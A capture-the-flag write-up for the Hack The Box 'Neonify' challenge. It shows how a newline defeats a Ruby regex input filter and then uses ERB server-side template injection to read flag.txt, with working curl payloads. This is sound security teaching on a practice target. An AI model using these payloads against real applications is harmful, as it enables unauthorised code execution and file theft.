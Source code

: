 #writeup 
[**Neonify**](https://app.hackthebox.com/challenges/neonify) is an *easy* challenge on HTB.

We are supplied with two things:
- The IP-address and port number of a remote docker container running a website
- The files to run this docker file locally

Looking at the remote website we can see that it is quite simple. The most important aspect of it is an input box. Any text that is written in here is shown on the webpage in a neonified style. 

The docker container gives us access to all the source files of the website and tells us that there is a file in the directory called `flag.txt`. The local `flag.txt` is just a test instance, but we can assume that the real flag is located in the same file on the remote website.

Looking at the source code of the website, we see the following:
```html
# file: index.erb
<h1 class="title">Amazing Neonify Generator</h1>
<form action="/" method="post">
	<p>Enter Text to Neonify</p><br>
	<input type="text" name="neon" value="">
	<input type="submit" value="Submit">
</form>
<h1 class="glow"><%= @neon %></h1>
```
It tells us that the input that a user supplies is directly used as an html element with `class="glow"` in the website. This means that we might be able to perform some DOM-based XSS: supply the input form with a crafted string that prints the contents of the `flag.txt` form.

However, we quickly notice that whenever we enter any special characters as input, the resulting neon code just states "Malicious Input Detected". It seems some input sanitization is being performed. Let's take a look at the source code to see how this is implemented exactly:
```ruby
# file: neon.rb
post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end
```

So, only if the input is matched by the regular expression `^[0-9a-z ]+$`, it is handled as expected. If there is no match, we get the "Malicious Input Detected" response. The regular expression `^[0-9a-z ]+$` is composed of:
- `^` beginning of a line
- `[0-9a-z ]+` on ore more of the charactes '0' through '9', 'a' through 'z' or a `space`.
- `$` the end of a line

We want to try to craft a string such that it matches this regular expression but still contains special characters. We can use an online [RE interpreter](https://regex101.com/) to play around with different strings. The crucial point here, is that the code is implemented such that the input string needs *some* match with the regular expression, but the match does not have to contain the entire input string. Thus, we find out that the string: "a\n ./<>" is matched on the "a\n" part, because of the newline!

The webapp in the browser actually makes it difficult to put newlines in the input field, because an Enter press just POSTs the request and '\n' is not interpreted. To circumvent this problem we can use `curl` and encode the string with url-encoding

```zsh
curl ip:port --data $'neon=test%0A<><><>'
```
We see that indeed, the response contains:
```html
        </form>
        <h1 class="glow">test
 <><><><</h1>
    </div>
```
There is no more sign of the "Malicious Input Detected" warning. Great, now that we now how to circumvent the input sanitization, let's craft an input that will read the contents of the `flag.txt` file.

In embedded ruby, which this application uses (we can see that by the `.erb` file-extenions) we can execute code using `<%= %>` element. Reading a file in Ruby can be done with `File.read('path/to/your/file.txt')`. So our final payload becomes:
```
test\n
<%= File.read('flag.txt') %>
```

Again, we need to encode the '\n' as well as the other characters, so that it is properly parsed. So finally, we run the command:
```zsh
curl ip:port --data 'neon=test%0A%3C%25%3D%20File.read%28%27flag.txt%27%29%20%25%3E'
```

And we get the flag!